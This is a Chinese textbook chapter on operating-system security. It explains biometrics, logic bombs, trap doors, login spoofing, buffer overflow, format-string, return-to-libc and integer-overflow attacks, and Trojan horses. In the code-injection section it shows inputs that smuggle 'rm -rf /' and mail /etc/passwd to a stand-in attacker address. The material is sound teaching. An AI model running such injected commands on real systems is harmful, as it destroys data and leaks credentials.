一个典型的生物识别系统由两部分组成：注册部分和识别部分。在注册部分中，用户的特征被数字化储存，并把最重要的识别信息抽取后存放在用户记录中。存放方式可以是中心数据库（如用于远程计算机登录的数据库）或用户随身携带的智能卡并在识别时插入远程读卡器（如ATM机）。
另一个部分是识别部分。在使用时，首先由用户输入登录名，然后系统进行识别。如果识别到的信息与注册时的样本信息相同，则允许登录，否则就拒绝登录。这时仍然需要使用登录名，因为仅仅根据检测到的识别信息来判断是不严格的，只有识别部分的信息会增加对识别信息的排序和检索难度。也许某两个人会具有相同的生物特征，所以要求生物特征还要匹配特定用户身份的安全性比只要求匹配一般用户的生物特征要强得多。
被选用的识别特征必须有足够的可变性，这样系统可以准确无误地区分大量的用户。例如，头发颜色就不是一个好的特征，因为许多人都拥有相同颜色的头发。而且，被选用的特征不应该经常发生变化（对于一些人而言，头发并不具有这个特性）。例如，人的声音由于感冒会变化，而人的脸会由于留胡子或化妆而与注册时的样本不同。既然样本信息永远也不会与以后识别到的信息完全符合，那么系统设计人员就要决定识别的精度有多大。在极端情况下，设计人员必须考虑系统也许不得不偶尔拒绝一个合法用户，但恰巧让一个乔装打扮者进入系统。对电子商务网站来说，拒绝一名合法用户比遭受一小部分诈骗的损失要严重得多；而对核武器网站来说，拒绝正式员工的到访比让陌生人一年进入几回要好得多。
现在让我们来看一看实际应用的一些生物识别方式。一个令人有些惊奇的方式是使用手指长短进行识别。在使用该方法时，每一个终端都有如图9-21所示的装置。用户把手插进装置里，系统就会对手指的长短进行测量并与数据库里的样本进行核对。
然而，手指长度识别并不是令人满意的方式。系统可能遭受手指石膏模型或其他仿制品的攻击，也许入侵者还可以调节手指的长度以便进行实验。
另一种目前被广泛应用于商业的生物识别模式是虹膜识别技术。任何两个人都具有不同的视网膜组织血管（patterns），即使是同卵双胞胎也不例外，因此虹膜识别与指纹识别同样可靠，而且更加容易实现自动化（Daugman,2004）。用户的视网膜可以由一米以外的照相机拍照并通过gabor小波（gabor wavelet）变换的方式提取某些特征信息，并且将结果压缩为256字节。该结果在用户登录的时候与现场采样结果进行比较，如果两者的汉明距离（hamming distance）小于某个阈值，则该用户通过验证（两个比特字串之间的汉明距离指从一个比特串变换为另一个比特串最少需要变化的比特数）。
任何依靠图像进行识别的技术都有可能被假冒。例如，某人可以戴上墨镜靠近ATM机前的照相机，墨镜上贴着别人的视网膜。毕竟，如果ATM机的照相机可以在1米距离拍摄视网膜照片，那么其他人也可以这么做，甚至长距离地使用镜头。出于这个原因，还必须采取一些额外的对策，例如在照相的时候使用闪光灯——并不是为了增加光的强度，而是为了观察拍摄到的瞳孔是否会在强光下收缩，或用于确定所拍摄到的瞳孔是否是摄影初学者的拙作（此时红眼效应会在闪光灯下出现，然而当关闭闪光灯后，则看不到红眼）。阿姆斯特丹机场从2001年起就开始使用虹膜识别技术以便使得经常出入机场的常客得以跳过常规安检流程。
还有一种技术叫做签名分析。用户使用一种特殊的笔签名，笔与终端相连。计算机将签名与在线存放的或智能卡里的已知样本进行比较。更好的一种办法是不去比较签名，而是比较笔的移动轨迹及书写签名时产生的压力。一个好的伪造者也许能够复制签名，但对笔画顺序和书写的压力与速度却毫无办法。
还有一种依靠迷你装置识别的技术是声音测定（Markowitz,2000）。整个装置只需要一个麦克风（或者甚至是一部电话）和有关的软件即可。声音测定技术与声音识别技术不同。后者是为了识别人们说了些什么，而前者是为了判断人们的身份。有些系统仅仅要求用户说一句密码，但是窃听者可以把这句话录下来，通过回放来进入系统。更先进的系统向用户说一些话并要求重述，用户每次登录叙述的都是不同的语句。有些公司开始在软件中使用声音测定技术，如通过电话线连接使用的家庭购物软件。在这种情况下，声音测定比用PIN密码要安全得多。
我们可以继续给出许多例子，但是有两个例子特别有助于我们理解。猫和其他一些动物通过小便来划定自己的地盘。很明显，猫通过这种方法可以相互识别自己的家。假设某人拿着一个可以进行尿液分析的装置，那么他就可以建立识别样本。每个终端都可以有这样的装置，装置前放着一条标语：“要登录系统，请留下样本。”这也许是一个绝对无法攻破的系统，但用户可能难以接受使用这样的系统。
在使用指纹识别装置和小型谱仪时也可能发生同样的情况。用户会被要求按下大拇指并抽取一滴血进行化验分析。问题在于任何验证识别系统对用户来说应该从心理上是可接受的。手指长度识别也许不会引起什么麻烦，但是类似于在线存储指纹等方式虽然减少了入侵的可能，但对大多数人来说是不可接受的。因为他们将指纹和犯人联系在一起。
前几节对于用户认证工作原理的一些细节问题已经有所讨论。不幸的是，阻止不速之客登录系统仅仅是众多安全问题中的一个。另一个完全不同的领域可以被定义为“内部攻击”（inside jobs），内部攻击由一些公司的编程人员或使用这些受保护的计算机、编制核心软件的员工实施。来自内部攻击与外部攻击的区别在于，内部攻击者拥有外部人员所不具备的专业知识和访问权限。下面我们将给出一些内部攻击的例子，这些攻击方式曾经非常频繁地出现在公司中。根据攻击者、被攻击者以及攻击者想要达到的目的这三方面的不同，每种攻击都具有不同的特点。
在软件外包盛行的时代，程序员总是很担心他们会失去工作，有时候他们甚至会采取某些措施来减轻这种担心。对于感受到失业威胁的程序员，编写逻辑炸弹（logic bomb）就成为了一种策略。这一装置是某些公司程序员（当前被雇用的）写的程序代码，并被秘密地放入产品的操作系统中。只要程序员每天输入口令，产品就相安无事。但是一旦程序员被突然解雇并毫无警告地被要求离开时，第二天（或第二周）逻辑炸弹就会因得不到口令而发作。当然也可以在逻辑炸弹里设置多个变量。一个非常有名的例子是：逻辑炸弹每天核对薪水册。如果某程序员的工号没有在连续两个发薪日中出现，逻辑炸弹就发作了（Spafford等人,1989）。
逻辑炸弹发作时可能会擦去磁盘，随机删除文件，对核心程序做难以发现的改动，或者对原始文件进行加密。在后面的例子中，公司对是否要叫警察带走放置逻辑炸弹的员工进退两难（报警存在着导致数月后对该员工宣判有罪的可能，但却无法恢复丢失的文件）。或者屈服该员工对公司的敲诈，将其重新雇用为“顾问”来避免如同天文数字般的补救，并依此作为解决问题的交换条件（公司也同时期望他不会再放置新的逻辑炸弹）。
在很多有记录的案例中，病毒向被其感染的计算机中植入逻辑炸弹。一般情况下，这些逻辑炸弹被设计为在未来的某个时间“爆炸”。然而，由于程序员无法预知那一台计算机将会被攻击，因此逻辑炸弹无法用于保护自己不失业，也无法用户勒索。这些逻辑炸弹通常会被设定为在政治上有重要意义的日子爆炸，因此它们也称做时间炸弹（time bomb）。
另一个由内部人员造成的安全漏洞是后门陷阱（trap door）。这一问题是由系统程序员跳过一些通常的检测并插入一段代码造成的。如程序员可以在登录程序中插入一小段代码，让所有使用“zzzzz”登录名的用户成功登录而无论密码文件中的密码是什么。正常的程序代码如图9-22a所示。改成后门陷阱程序的代码如图9-22b所示。strcmp这行代码的调用是为了判断登录名是否为“zzzzz”。如果是，则无论输入了什么密码都可以登录。如果后门陷阱被程序员放入到计算机生产商的产品中并飘洋过海，那么程序员日后就可以任意登录到这家公司生产的计算机上，而无论谁拥有它或密码是什么。后门陷阱程序的实质是它跳过了正常的认证过程。
对公司来说，防止后门的一个方法是把代码审查（code review）作为标准惯例来执行。通过这一技术，一旦程序员完成对某个模块的编写和测试后，该模块被放入代码数据库中进行检验。开发小组里的所有程序员周期性地聚会，每个人在小组面前向大家解释每行代码的含义。这样做不仅增加了找出后门代码的机会，而且增加了大家的责任感，被抓出来的程序员也知道这样做会损害自己的职业生涯。如果该建议遭到了太多的反对，那么让两个程序员相互检查代码也是一个可行的方法。
这种内部攻击的实施者是系统的合法用户，然而这些合法用户却试图通过登录欺骗的手段获取他人的密码。这种攻击通常发生在一个具有大量多用户公用计算机的局域网内。很多大学就有可以供学生使用的机房，学生可以在任意一台计算机上进行登录。登录欺骗（login spoofing）。它是这样工作的：通常当没有人登录到UNIX终端或局域网上的工作站时，会显示如图9-23a所示的屏幕。当用户坐下来输入登录名后，系统会要求输入口令。如果口令正确，用户就可以登录并启动shell（也有可能是GUI）程序。
现在我们来看一看这一情节。一个恶意的用户Mal写了一个程序可以显示如图9-23b所示的图像。除了内部没有运行登录程序外，它看上去和9-23a惊人的相似，这不过是骗人。现在Mal启动了他的程序，便可以躲在远处看好戏了。当用户坐下来输入登录名后，程序要求输入口令并屏蔽了响应。随后，登录名和口令后被写入文件并发出信号要求系统结束shell程序。这使得Mal能够正常退出登录并触发真正的登录程序，如图9-23a所示。好像是用户出现了一个拼写错误并要求再次登录，这时真正的登录程序开始工作了。但与此同时Mal又得到了另一对组合（登录名和口令）。通过在多个终端上进行登录欺骗，入侵者可收集到多个口令。
防止登录欺骗的惟一实用的办法是将登录序列与用户程序不能捕捉的键组合起来。Windows为此目的采用了Ctrl-Alt-Del。如果用户坐在终端前开始按Ctrl-Alt-Del，当前用户就会被注销并启动新的登录程序。没有任何办法可以跳过这一步。
前面已经介绍了内部人员是如何危害系统安全的，在本节中，我们将介绍外部人员（outsider）（主要通过互联网）对操作系统进行攻击和破坏的方式。几乎所有的攻击机制都利用了操作系统或是被广泛使用的软件（如IE浏览器和微软Office）中的漏洞。一种典型的攻击形成方式是，有人发现了操作系统中的一个漏洞，接着发现如何利用该漏洞攻击计算机。
每一种攻击都涉及特定程序中的特定漏洞，其中利用某些反复出现的漏洞展开的攻击值得我们学习。在本节中，我们将研究一些攻击的工作原理，由于本书的核心是操作系统，因此重点将放在如何攻击操作系统上，而利用系统和软件漏洞对网页和数据库的攻击方式本节都没有涉及。
有很多方式可以对漏洞进行利用，在一种直接的方法中，攻击者会启动一个脚本，该脚本按顺序进行如下活动：
1)运行自动端口扫描，以查找接受远程连接的计算机。
2)尝试通过猜测用户名和密码进行登录。
3)一旦登录成功，则启动特定的具有漏洞的程序，并产生输入使得程序中的漏洞被触发。
4)如果该程序运行SETUID到root，则创建一个SETUID root shell。
5)启动一个僵尸程序，监听IP端口的指令。
6)对目标机器进行配置，确保该僵尸程序在系统每次重新启动后都会自动运行。
上述脚本可能会运行很长时间，但是它有很可能最终成功。攻击者确保只要目标计算机重新启动时，僵尸程序也启动，就使得这台计算机一直被控制。
另一种常用的攻击方式利用了已经感染病毒的计算机，在该计算机登录到其他机器的时候，计算机中的病毒启动目标机器中的漏洞程序（就像上面提到的脚本一样）。基本上只有第一步和第二步与上述脚本文件不同，其他步骤仍然适用。不论哪种方法，攻击者的程序总是要在目标机器中运行，而该机器的所有者对该恶意程序一无所知。
之所以有如此多的攻击是因为操作系统和其他应用程序都是用C语言写的（因为程序员喜欢它，并且用它来进行有效的编译）。但遗憾的是，没有一个C编译器可以做到数组边界检查。如下面的代码虽然并不合法，但系统却没有进行检验：
int I;
char c[1024];
i=12000;
c[i]=0;
结果内存中有10 976个字节超出了数组c的范围，并有可能导致危险的后果。在运行时没有进行任何检查来避免这种情况。
C语言的属性导致了下列攻击。在图9-24a中，我们看到主程序在运行时局部变量是放在栈里的。在某些情况下，系统会调用过程A，如图9-24b所示。标准的调用步骤是把返回地址（指向调用语句之后的指令）压入栈，然后将程序的控制权交给A，由A不断减少栈指针地址来分配本地变量的存储空间。
假设过程A的任务是得到完整的路径（可能是把当前目录路径和文件名串联起来），然后打开文件实施一些操作。A拥有固定长度的缓冲区（如数组）B，它存放着文件名，如图9-24b所示。使用定长缓冲区存放文件名比起先检测实际大小再动态分配空间要容易得多。如果缓冲区只有1024个字节，那么能够放得下所有的文件名吗？特别是当操作系统把文件名的长度限制（或者更好的是对全路径名的长度限制）在不超过255（或其他固定的长度）个字符时。
然而，上述推论有致命的错误。假设用户提供了一个长达2000个字符的文件名，在使用时就会出错，但攻击者却不予理会。当过程A把文件名复制到缓冲区时，文件名溢出并覆盖了图9-24c的灰色部分。更糟的是，如果文件名足够长，它还会覆盖返回地址，这样当过程A返回时，返回地址是从文件名的中间截取的。如果这一地址是随机数，系统将跳到该随机地址，并可能引起一系列的误操作。
但是如果文件名没有包含某些随机地址会怎么样呢？如果它包含的是有效的二进制地址并且设计得十分吻合某个过程的起始地址，那又会怎么样呢？例如吻合过程B的起始地址。如果真是这样，那么当过程A运行结束后，过程B就开始运行。实际上，攻击者会用他的恶意代码来覆盖内存中的原有代码，并且让这些代码被执行。
同样的技巧还运用于文件名之外的其他场合。如用在对较长的环境变量串、用户输入或任何程序员创建了定长缓冲区并需要用户输入变量的场合。通过手工输入一个含有运行程序的串，就有可能将这段程序装入到栈并让它运行。C语言函数库的gets函数可以把（未知大小的）串变量读入定长的缓冲区里，但并不校验是否溢出，这样就很容易遭受攻击。有些编译器甚至通过检查gets的使用来发出警告。
现在我们来讨论最坏的部分。假设被攻击的UNIX程序的SETUID为root（或在Windows里拥有管理员权限的程序），被插入的代码可以进行两次系统调用，把攻击者磁盘里的shell文件的权限改为SETUID root的权限，这样当程序运行时攻击者就拥有了超级用户的权限。或者，攻击者可以映射进一个特定的共享文件库，从而实施各种各样的破坏。还可以十分容易地通过exec系统调用来覆盖当前shell中运行的程序，并利用超级用户的权限建立新的shell。
更糟的是，恶意代码可以通过互联网下载程序或脚本，并将其存储在本地磁盘上。此后该恶意代码就可以创建一个进程直接从本地运行恶意程序或是脚本。该进程可以一直监听IP端口，从而等待攻击者的命令，这将目标机器变为僵尸。恶意代码必须保证每次机器启动后，恶意程序或脚本可以被启动，然而不论在Windows或所有版本的UNIX系统下，这都是很容易实现的。
绝大多数系统安全问题都与缓冲区溢出漏洞相关，而这类漏洞很难被修复，因为已有的大量C代码都没有对缓冲区溢出进行检查。
尽管很多程序员都是很好的打字员，但事实上他们都不愿意打字。将变量名reference_count缩写为rc表达了相同的意思，却可以在每次使用该变量的时候减少了13个字符的输入，对程序员来说何乐而不为呢？然而这种偷懒行为在下面描述的情况中，却可能导致系统灾难性地崩溃。
考虑下面的C程序代码片段，该段代码打印了一段欢迎信息：
char *s="Hello World";
printf("%s",s);
在这段代码声明了一个字符指针类型的变量s，该变量被初始化指向一个字符串“Hello World”，注意在这个字符串的末尾有一个额外的字符‘\0’用以标记该字符串的结束。函数printf被传入两个参数，其中格式化字符串“%s”指定系统接下来打印的是一个字符串，第二个参数s则告诉printf该字符串的起始地址。当被执行的时候，这段代码会在屏幕上打印出“Hello World”（在任何标准输出中，都可以成功执行）。
但是，如果程序员懒惰地将上述代码段写为：
char *s="Hello World";
printf(s);
这样调用printf是合法的，因为printf具有可变个数的参数，其中第一个参数必须是格式化字符串（Format String），当然不包括任何格式信息（如“%s”）的字符串也是允许的，所以尽管第二种编程风格并不推荐，但在这里并不会出问题，而且它还使得程序员少敲了五个按键，似乎是不错的改进。
6个月以后，其他程序员要求对这段代码进行修改，首先询问用户的姓名，在对该用户发出特定的欢迎信息。在草率阅读完原先的代码后，该程序员只做了一点改变：
char s[100],g[100]="Hello";/*声明数组s和g，并初始化g*/
gets(s);/*从键盘读取字符串，存放到数组s中*/
strcat(g,s);/*把s连接到g的末尾*/
printf(g);/*输出g*/
这段代码首先将用户输入的字符串存入s，然后将s连接到已经被初始化的字符串g之后，以在g中形成最终的输出信息。到现在这种方式依然能够正确地显示结果（gets函数很容易遭受缓冲区溢出攻击，然而由于其便于书写，因此到现在依然流行）。
然而，如果一个对C语言有所了解的用户看到了这段代码，他会立刻意识到程序从键盘输入的并不只是一个简单的字符串，而是一个格式化字符串（Format String），因此任何格式化标识符都会起作用。尽管绝大多数格式化标识符都规范了输出（例如，“%s”：打印一个字符串；“%d”：打印一个十进制整数），有一些却比较特殊。特别是“%n”，它不打印出任何信息，而是计算直到“%n”出现之前，总共打印了多少字符，并且将这个数字保存到printf下一个将要使用的参数中去。下面给出一个使用“%n”的例子：
int main(int argc,char *argv[])
{
int i=0;
printf("Hello%nworld\n",＆i);/*把%n前出现的字符个数保存到变量i中*/
printf("i=%d\n",i);/*i现在的值为6*/
}
当这段代码被编译运行后，输出为：
Hello World
i=6
注意到i的值在函数printf中以一种很不显眼的方式被修改了。这种特性只在极少数情况下有用，它意味着打印一个格式化字符串可能导致一个单词（或者很多单词）被存储在内存中。很显然让printf具有这样的特性并不是一个好主意，然而这个功能在当时看来是非常方便的。绝大多数软件的弱点都是因此而存在。
就像我们刚刚看到的一样，由于程序员对程序不严谨的修改，可能导致用户有了输入格式化字符串的机会。而打印一个格式化字符串可能导致内存被重写（overwrite），这就为覆盖栈中printf函数的返回地址提供了一种方法，通过重写这个返回地址，可以使得函数在printf函数返回时跳到任何位置，例如跳到刚刚输入的格式化字符串。这种攻击方式叫做格式化字符串攻击（format string attack）。
一旦用户可以修改内存并强制程序跳转到一段新注入的代码段，这段代码就具有了被攻击程序所拥有的所有权限。如果该程序是SETUID root，那么攻击者就可以创建一个具有root权限的shell。实现这种攻击的具体细节过于复杂，本书不再赘述。这里只想让读者知道，格式化字符串攻击是一个严重的问题。如果读者在Google搜索栏中输入“format string attack”（格式化字符串攻击），会找到很多的相关信息。
另外，值得一提的是，在本节的例子中，采用定长字符数组也很容易遭受缓冲区溢出攻击。
缓冲区溢出攻击和格式化字符串攻击都要求向栈中加入必要的数据，并将函数返回的地址指向这些数据。一种防止这种攻击的方法是设定栈页面为读/写权限，而不是执行权限。虽然大多数操作系统都一定不支持这个功能，但现代的“奔腾”CPU可以做到这一点。还有一种攻击在栈不能被执行的条件下也能奏效，这就是返回libc攻击（return to libc attack）。
假设一个缓冲区溢出攻击或格式化字符串攻击成功修改了当前函数的返回地址，但是无法执行栈中的攻击代码，那么还能否通过修改当前函数的返回地址到指定位置来实现攻击呢？答案是肯定的。几乎所有的C程序连接了libc库（通常该库为共享的），这个库包括了C程序几乎所有的关键函数，其中的一个就是strcpy。该函数将一个任意长度的字符串从任意地址复制到另一地址。这种攻击的本质是欺骗strcpy函数将恶意程序（通常是共享的）复制到数据段并在那里执行。
下面让我们观察这种攻击实现的具体细节。在图9-25a中，函数f在main函数中被调用，形成图中的栈。我们假设这个程序在超级用户的权限下运行（如，SETUID root），并且存在漏洞使得攻击者可以将自己的shellcode注入到内存中，如图9-25b所示。此时这段代码在栈顶，因此无法被执行。
除了将shellcode放到栈顶，攻击者还需要重写图9-25b中阴影部分的四个字。这四个字的最低地址之前保存了该函数的返回地址（返回到main），但现在它保存的是strcpy函数的地址，所以当f返回的时候，它实际上进入了strcpy。在strcpy中，栈指针将会指向一个伪造的返回地址，该函数完成后会利用该地址返回。而这个伪造的返回地址所指向的，就是攻击者注入shellcode的地址。在返回地址之上的两个字分别是strcpy函数执行复制操作的源地址和目的地址。当strcpy函数执行完毕，shellcode被复制到可执行的数据段，同时strcpy函数返回到shellcode处。shellcode此时具有被攻击程序所有的权限，它为攻击者创建一个shell，并开始监听一些IP端口，等待来自攻击者的命令。从此刻起，这台机器变成了僵尸机器（zombie），可以被用来发送垃圾邮件或者发起“拒绝服务攻击”（denial-of-service attack）。
计算机进行定长整型数的运算，整型数的长度一般有8位、16位、32位和64位。如果相加或相乘的结果超过了整型数可以表示的最大值，就称溢出发生了。C程序并不会捕捉这个错误，而是会将错误的结果存储下来并继续使用。一种特别的情况是，当变量为有符号整数时，两个整数相加或想成的结果可能因为溢出而成为负数。如果变量是无符号整数，溢出的结果依然是整数，不过会围绕0和最大值进行循环（wrap around）。例如，两个16位无符号整数的值都是40 000，如果将其相乘的结果存入另一个一个16位的无符号整型变量中，其结果将会是4096。
由于这种溢出不会被检测，因此可能被用作攻击的手段。一种方式就是给程序传入两个合法的（但是非常大）的参数，它们的和或乘积将导致溢出。例如，一些图形程序要求通过命令行传入图像文件的高和宽，以便对输入的图像进行大小转换。如果传入的高度和宽度会导致面积的“溢出”，程序就会错误地计算存储图像所需要的内存空间，从而可能申请一块比实际小得多的内存。至此缓冲区溢出攻击的时机已经成熟。对于有符号整型数，也可以采用相似的办法进行攻击。
使得目标程序执行它所不期望的代码是一种攻击形式。比如有时候需要将用户文件以其他文件名另存（如为了备份）。如果程序员为了减轻工作量而直接调用系统函数，开启一个shell并执行shell命令。如下的C代码
System("ls＞file-list")
开启shell，并执行命令
ls＞file-list
列出当前目录下的文件列表，将其复制到叫做file-list的目录下。如上面所说，程序员写的代码可能如图9-26所示。
该程序的功能是输入源和目的文件名后，用cp命令产生一条命令，最后调用system执行这条命令。如果用户分别输入“abc”和“xyz”，产生的命令为：
Cp abc xyz
它确实是在复制文件。
不幸的是，这段代码在有一个巨大的安全漏洞，可以用代码注入方法进行攻击。假如用户输入“abc”和“xyz;rm-rf”，命令就变成了：
Cp abc xyz;rm-rf/
先复制文件，然后递归地删除整个文件系统中所有文件和文件夹。如果该程序以系统管理员权限运行，此命令就会完全执行。问题的关键在于，分号后的字符都会命令的方式在shell中执行。
输入参数另一个构造例子可以是“xyz;mail snooper@badguys.com＜/etc/passwd”，产生如下命令：
Cp abc xyz;mail snooper@badguys.com＜/etc/passwd
将etc目录下passwd文件发送到了一个不可信的邮箱中了。
另一类攻击叫做权限提升攻击（privilege escalation attack），即攻击者欺骗系统为其赋予比正常情况下更高的权限（一般情况下攻击者都希望获取超级用户权限）。比较著名的例子是利用计划任务（cron daemon）进行攻击。cron daemon帮助用户每隔固定的时间进行工作（每个小时、每天、每周等）。cron daemon通常都运行在root权限下，以便可以访问任何用户的文件。它有一个目录专门存放一系列指令，来完成用户计划的一系列工作。当然该目录不能被用户修改，否则任何人都可以利用root权限做任何事情了。
攻击过程如下：攻击者的程序将其目录设定为cron daemon的工作目录，此时该程序并不能对此目录进行修改，不过这并不会对攻击有任何影响。该程序接下来将引发一次系统故障，或者直接将自己的进程结束，从而强制产生一次内存信息转储（core dump）。信息转储是由操作系统在cron daemon目录下引发的，因此不会被系统保护机制所阻止。攻击者程序的内存映像因此被合法地加入到cron daemon的命令行中，接下来将会在root权限下被执行。首先该程序会将攻击者指定的某些程序提升为SETUID root权限，第二部则是运行这些程序。当然这种攻击方式现在已经行不通了，不过这个例子可以帮助读者了解这类攻击的大致过程。
在2000年之前出生的年轻人有时候为了打发无聊的时间，会编写一些恶意软件发布到网络上，当然他们的目的只是为了娱乐。这样的软件（包括木马、病毒和蠕虫）在世界上快速地传播开来，并被统一称为恶意软件（malware）。当报道上强调某个恶意软件造成了数百万美元的损失，或者无数人丢失了他们宝贵的数据，恶意软件的作者会惊讶于自己的编程技艺竟然能产生如此大的影响。然而对于他们来说，这只不过是一次恶作剧而已，并不涉及任何利益关系。
然而这样天真的时代已经过去了，现在的恶意软件都是由组织严密的犯罪集团编写的，他们所做的一切只是为了钱，而且并不希望自己的事情被媒体报道。绝大多数这样的恶意软件的设计目标都是“传播越快越好，范围越广越好”。当一台机器被感染，恶意软件被安装，并且向在世界某地的控制者机器报告该机器的地址。用于控制的机器通常都被设置在一些欠发达的或法制宽松的国家。在被感染的机器中通常都会安装一个后门程序（backdoor），以便犯罪者可以随时向该机器发出指令，以方便地控制该机器。以这种方式被控制的机器叫做僵尸机器（zombie），而所有被控制的机器合起来称做僵尸网络（botnet，是robot network的缩写）。
控制一个僵尸网络的罪犯可能处于恶意的目的（通常是商业目的）将这个网络租借出去。最通常的一种是利用该网络发送商业垃圾邮件。当一次垃圾邮件的攻击在网上爆发，警方介入并试图找到邮件的来源，他们最终会发现这些邮件来自全世界成千上万台计算机，如果警方继续深入调查这些计算机的拥有者，他们将会看到从孩子到老妇的各色人物，而其中不会有任何人承认自己发送过垃圾邮件。可见利用别人的机器从事犯罪活动使得找到幕后黑手成为一件困难的事情。
安装在他人机器中的恶意软件还可以用于其他犯罪活动，如勒索。想象一下，一台机器中的恶意软件将磁盘中的所有文件都进行了加密，接着显示如下信息：
恶意软件的另一个应用是在被感染机器中安装一个记录用户所有敲击键盘动作的软件（键盘记录器keylogger），该软件每隔一段时间将记录的结果发送给其他某台机器或一组机器（包括僵尸机器），最终发送到罪犯手中。一些提供中间接收和发送信息的机器的互联网提供者通常是罪犯的同伙，但调查他们同样困难。
罪犯在上述过程中收集的键盘敲击信息中，真正有价值的是一些诸如信用卡卡号这样的信息，它可以通过正当的商业途径来购买东西。受害者可能知道还款期才能发现他的信用卡已经被盗，而此时犯罪分子已经用这张卡逍遥度过了几天甚至几个星期。
为了防止这类犯罪，信用卡公司都采取人工智能软件检测某次不同寻常的消费行为。例如，如果一个人通常情况下只会在本地的小商店中使用他的信用卡，而某一天它突然预订了很多台昂贵的笔记本电脑并要求将他们发送到塔吉克斯坦的某个地址。这时信用卡公司的警报会响起，员工会与信用卡拥有者进行联系，以确认这次交易。当然犯罪分子也知道这种防御软件，因此他们会试图调整自己的消费习惯，并力图避开系统的检测。
在僵尸机器上安装的其他软件可以搜集另外一些有用的信息，这些信息与键盘记录其搜集的信息结合起来，可能使得犯罪分子从事更加广泛的身份盗窃（identity theft）犯罪。罪犯搜集了一个人足够的信息，如他的生日、母亲出嫁前的姓名、社会安全码、银行账号、密码等，因此可以成功地模仿受害者，并得到新的实物文档，如替换驾驶执照、银行签账卡（bank debit card）、出生证明等。这些信息可能被卖给其他罪犯，从而从事更多犯罪活动。
利用恶意软件从事的另一种犯罪是窃取用户账户中的财产，该类恶意软件平时一直处在潜伏状态，直到用户正确地登录到他的网络银行账户中去，该软件立刻发起一次快速的交易，查看该账户有多少余额，并将所有的钱都转到罪犯的账户中，这笔钱接着连续转移很多个账户，以便警方在追踪现金流走向的时候需要花很多天甚至几个星期来获得查看账户的相关许可。这种犯罪通常设计很大的交易量，已经不能视为青少年的恶作剧了。
恶意软件不只会被有组织的犯罪团伙所使用，在工业生产中同样可以看到其身影。一个公司可能会向对手的工厂中安装一些恶意软件，当这些恶意软件检测到没有管理员处于登录状态时，便会运行并干扰正常的生产过程，降低产品的质量，以此来给竞争对手制造麻烦。而在其他情况下这类恶意软件不会做任何事情，因此难以被检测到。
另一种恶意软件可能由野心勃勃的公司领导人所利用，这种病毒被投放在局域网中，并且会检测它是否在总裁的计算机中运行，如果是，则找到其中的电子报表，并随机交换两个单元格的内容。而总裁迟早会基于这份错误的报表做出不正确的决定，到时等待他的就是被炒鱿鱼的下场，成为一个无名之辈。
一些人无论走到哪里肩膀上都会有一个芯片（请不要与肩膀上的RFID芯片弄混）。他们对社会充满了或真实或想象中的怨恨，想要进行报复。此时他们可能会选择恶意软件。很多现代计算机将BIOS保存在闪存中，闪存可以在程序的控制下被重写（以便生产者可以方便地修正其错误）。恶意软件向闪存中随机地写入垃圾数据，使得电脑无法启动。如果闪存在电脑插槽中，那么修复这个问题需要将电脑打开，并且换一个新的闪存；如果闪存被焊接在母板上，可能整块母板都可能作废，不得不买一块新的母板。
我们不打算继续深入地讨论这个问题，读者到这里已经了解关于恶意软件的基本情况，如果想了解更多内容，请在搜索引擎中输入“恶意软件”。
很多人会问：“为什么恶意软件会如此容易地传播开来？”产生这种情况的原因有很多。其中之一是世界上90%的计算机运行的是单一版本的操作系统（Windows），使得它成为一个非常容易被攻击的目标。假设每台计算机都有10个操作系统，其中每个操作系统占有市场的10%，那么传播恶意代码就会变得加倍的困难。这就好比在生物世界中，物种多样化可以有效防止生物灭绝。
第二个原因是，微软在很早以前就强调其Windows操作系统对于没有计算机专业知识的人而言是简单易用的。例如Windows允许设置在没有密码的情况下登录，而UNIX从诞生之初就始终要求登录密码（尽管随着Linux不断试图向Windows靠近，这种传统正在逐步地淡化），操作系统易用性是微软一贯坚持的市场策略，因此他们在安全性与易用性之间不断进行着权衡。如果读者认为安全性更加重要，那么请先停止阅读，在用你的手机打电话之前先为它注册一个PIN码——几乎所有的手机都有此功能。如果你不知道如何去做，那么请从生产商的网站下载用户手册。
在下面的几节中我们将会看到恶意软件更为一般化的形式，读者将会看到这些软件是如何组织并传播的。之后我们会提供对恶意软件的一些防御方法。
编写恶意代码是第一步，你可以在你的卧室里完成这件事情。然而让数以百万计的人将你的程序安装到他们的电脑中则是完全不同的另一件事。我们的软件编写者Mal该如何做呢？一般的方法是编写一些有用的程序，并将恶意代码嵌入到其中。游戏、音乐播放器、色情书刊阅览器等都是比较好的选择。人们会自愿地下载并安装这些应用程序。作为安装免费软件的代价，他们也同时安装了恶意软件。这种方式叫做木马攻击（Torjan horse attack），引自希腊荷马所做《奥德赛》中装满了希腊士兵的木马。在计算机安全世界中，它指人们自愿下载的软件中所隐藏的恶意软件。
当用户下载的程序运行时，它调用函数将恶意代码写入磁盘成为可执行程序并启动该程序。恶意代码接下来便可以进行任何预先设计好的破坏活动，如删除、修改或加密文件。它还可以搜索信用卡号、密码和其他有用的信息，并且通过互联网发送给Mal。该恶意代码很有可能连接到某些IP端口上以监听远程命令，将该计算机变成僵尸机器，随时准备发送垃圾邮件或完成攻击者的指示。通常情况下，恶意代码还包括一些指令，使得它在计算机每次重新启动的时候自动启动，这一点所有的操作系统都可以做到。
木马攻击的美妙之处在于，木马的拥有者不必自己费尽心机侵入到受害者的计算机中，因为木马是由受害者自己安装的。
还有许多其他方法引诱受害人执行特洛伊木马程序。如，许多UNIX用户都有一个环境变量$PATH，这是一个控制查找哪些目录的命令。在shell程序中键入
echo $PATH
就可以查看。
例如，用户ast在系统上设置的环境变量可能会包括以下目录：
:/usr/ast/bin:/usr/local/bin:/usr/bin:/bin:/usr/bin/X11:/usr/ucb:/usr/man\
:/usr/java/bin:/usr/java/lib:/usr/local/man:/usr/openwin/man
其他用户可能设置不同的查找路径。当用户在shell中键入
prog
后，shell会查看在目录/usr/ast/bin/prog下是否有程序。如果有就执行，如果没有，shell会尝试查找/usr/local/bin/prog、/usr/bin/prog、/bin/prog，直到查遍所有10个目录为止。假定这些目录中有一个目录未被保护，骇客即可以在该目录下放一个程序。如果在整个目录列表中，该程序是第一次出现，就会被运行，从而特洛伊木马也被执行。
